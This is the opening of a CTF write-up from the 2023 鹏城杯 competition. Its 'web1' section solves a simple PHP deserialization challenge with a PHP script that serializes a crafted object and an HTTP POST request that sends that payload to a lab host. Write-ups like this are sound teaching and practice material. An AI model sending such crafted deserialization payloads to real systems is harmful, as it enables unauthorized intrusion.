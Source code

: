 ```yaml
---
title: "2023 鹏城杯 Web Writeup"
date: 2023-11-04T20:53:42+08:00
lastmod: 2023-11-04T20:53:42+08:00
draft: false
author: "X1r0z"

tags: ['ctf']
categories: ['Writeup']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


2023 鹏城杯 Web Writeup



## web1

简单反序列化

```php
<?php

class Hacker {
}

class H {
    public $username;
}

$b = new Hacker();

$a = new H();
$a->username = $b;

echo serialize($a);
?>
```

```http
POST / HTTP/1.1
Host: 172.10.0.6
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 48

pop=O:1:"H":1:{s:8:"username";O:6:"Hacker":0:{}}
```
